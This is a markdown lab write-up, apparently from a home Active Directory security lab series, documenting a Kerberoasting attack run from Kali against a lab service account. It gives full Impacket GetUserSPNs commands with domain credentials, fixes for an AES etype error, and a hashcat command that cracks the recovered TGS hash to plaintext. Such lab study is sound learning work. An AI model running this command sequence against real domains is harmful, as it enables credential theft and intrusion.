



# 04 - Kerberoasting Attack Execution

This document covers the execution of the Kerberoasting attack against the `svc-sql` service account (configured and made Kerberoastable in `03-ad-users-and-ous.md`), performed from the Kali Linux VM.

## 1. Target & Attacker Context

- **Domain Controller:** Windows Server 2025 (192.168.10.10, `corp.local`)
- **Attacker machine:** Kali Linux
- **Authenticated domain user used for the request:** `jkowalski`
- **Target service account:** `svc-sql` (SPN: `MSSQLSvc/dc01.corp.local:1433`)

The target account had `msDS-SupportedEncryptionTypes` explicitly set to `24` (AES128 + AES256) on the Domain Controller beforehand, disabling RC4 support:

```powershell
Set-ADUser svc-sql -Replace @{"msDS-SupportedEncryptionTypes"=24}
Set-ADAccountPassword svc-sql -NewPassword (ConvertTo-SecureString "ZAQ!2wsx" -AsPlainText -Force)
```

## 2. Requesting the TGS Ticket

The TGS ticket was requested using Impacket's `GetUserSPNs` from the Kali VM:

```bash
impacket-GetUserSPNs 'corp.local/jkowalski:ZAQ!2wsx' -dc-ip 192.168.10.10 -request -request-user svc-sql
```

### Issue: KDC_ERR_ETYPE_NOSUPP

The initial attempt failed:

> Principal: corp.local\svc-sql - Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP (KDC has no support for encryption type)

**Root cause:** Windows Server 2025 enforces AES-only Kerberos on accounts with `msDS-SupportedEncryptionTypes=24` and rejects RC4 negotiation entirely. The Impacket version shipped via `apt` (0.13.0.dev0) did not negotiate AES correctly in the TGS-REQ.



**Fix:** upgrade Impacket via `pip`:

```bash
pip install --upgrade impacket --break-system-packages
```

This resolved the negotiation, confirming the fix requires Impacket ≥ 0.13.1.

### Issue: Network is unreachable

Separately, the Kali VM only had a NAT adapter with no route to the Domain Controller. A second network adapter (Internal Network, same as the DC/client VMs) was added in VirtualBox. NetworkManager repeatedly dropped the manually assigned IP on `eth1` after reconnects, producing `Network is unreachable` errors on both `ping` and Impacket.

**Fix:** reassign the IP manually after each interface reset:

```bash
sudo ip addr add 192.168.10.20/24 dev eth1
```

## 3. Successful Ticket Extraction

With Impacket updated and connectivity restored, the request succeeded and returned an AES256-encrypted TGS hash (`$krb5tgs$18$...`), saved to a file:

```bash
impacket-GetUserSPNs 'corp.local/jkowalski:ZAQ!2wsx' -dc-ip 192.168.10.10 -request -request-user svc-sql -outputfile svc-sql_hash.txt
```



**Why this matters:** the `$18` prefix indicates etype 18 (AES256-CTS-HMAC-SHA1-96). Unlike the legacy `$23` (RC4) format, this hash reflects the AES-only policy enforced on the account and requires a matching Hashcat mode.

## 4. Offline Cracking with Hashcat

The extracted hash was cracked offline using the `rockyou.txt` wordlist and Hashcat mode `19700` (Kerberos 5, etype 18, TGS-REP):

```bash
hashcat -m 19700 -a 0 svc-sql_hash.txt /usr/share/wordlists/rockyou.txt --force
```

Result:

```
Status...........: Cracked
Hash.Mode........: 19700 (Kerberos 5, etype 18, TGS-REP)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Recovered plaintext password: `ZAQ!2wsx`
Time to crack: ~15 seconds



## Status

✅ Kerberoasting attack successfully executed end-to-end: SPN discovery → AES256 TGS extraction → offline password recovery.

**Next step:** LLMNR poisoning attack using Responder from the Kali VM (see `05-llmnr-poisoning.md`).
